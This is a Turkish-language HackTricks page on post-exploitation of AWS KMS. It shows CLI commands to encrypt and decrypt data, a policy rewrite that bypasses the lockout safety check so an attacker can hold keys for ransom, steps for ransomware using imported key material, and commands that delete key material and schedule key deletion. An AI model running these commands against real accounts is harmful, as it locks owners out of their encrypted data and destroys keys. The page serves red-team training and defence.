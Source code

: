 # AWS - KMS Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## KMS

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Bilgileri Şifrele/Şifre Çöz

{% hint style="success" %}
Bir dosya içindeki verileri şifre çözmek istiyorsanız, dosyanın ikili verileri içermesi gerektiğini, base64 kodlu verileri değil, unutmayın.
{% endhint %}

* **simetrik** bir anahtar kullanarak
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **Asimetrik** bir anahtar kullanma:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

KMS üzerinde ayrıcalıklı erişime sahip bir saldırgan, anahtarların KMS politikasını değiştirebilir ve **kendi hesabına erişim verebilir**, meşru hesaba verilen erişimi kaldırarak.

Böylece, meşru hesap kullanıcıları bu anahtarlarla şifrelenmiş herhangi bir hizmetin bilgilerine erişemeyecek, bu da hesap üzerinde kolay ama etkili bir fidye yazılımı oluşturacaktır.

{% hint style="warning" %}
**AWS yönetilen anahtarların** bu saldırıdan etkilenmediğini unutmayın, yalnızca **Müşteri yönetilen anahtarlar** etkilenmektedir.

Ayrıca, **`--bypass-policy-lockout-safety-check`** parametresinin kullanılma gereğini unutmayın (bu seçeneğin web konsolunda olmaması, bu saldırının yalnızca CLI üzerinden mümkün olmasını sağlar).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Not edin ki, eğer bu politikayı değiştirir ve yalnızca bir dış hesaba erişim verirseniz, ardından bu dış hesaptan **erişimi orijinal hesaba geri vermek için yeni bir politika ayarlamaya çalışırsanız, bunu yapamazsınız**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Genel KMS Fidye Yazılımı

#### Küresel KMS Fidye Yazılımı

Küresel KMS Fidye Yazılımı gerçekleştirmek için başka bir yol vardır, bu aşağıdaki adımları içerecektir:

* Saldırgan tarafından içe aktarılan **anahtar materyali ile yeni bir anahtar oluşturun**
* Önceki sürümle şifrelenmiş **eski verileri yeni anahtar ile yeniden şifreleyin**.
* **KMS anahtarını silin**
* Artık yalnızca orijinal anahtar materyaline sahip olan saldırgan, şifrelenmiş verileri çözebilir

### Anahtarları Yok Et
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS'nin artık **önceki eylemlerin bir çapraz hesap üzerinden gerçekleştirilmesini engellediğini** unutmayın:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
